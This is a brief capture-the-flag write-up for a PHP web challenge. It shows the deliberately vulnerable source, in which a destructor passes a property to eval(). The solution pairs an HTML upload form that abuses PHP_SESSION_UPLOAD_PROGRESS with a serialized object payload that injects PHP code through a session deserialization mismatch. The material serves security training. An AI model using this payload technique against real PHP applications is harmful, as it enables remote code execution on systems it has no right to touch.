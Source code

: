 # Challenge
```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
   public $mdzz;
   function __construct()
   {
	   $this->mdzz = 'phpinfo();';
   }
   function __destruct()
   {
	   eval($this->mdzz);
   }
}
if(isset($_GET['phpinfo']))
{
   $m = new OowoO();
}
else
{
   highlight_string(file_get_contents('index.php'));
}
?>
```
# Solution

Test.html

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="1" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

payload:
```
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```

# Refference 
+ [jarvisoj : PHPINFO](http://web.jarvisoj.com:32784/)
+ [chybeta : PHPINFO](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#PHPINFO)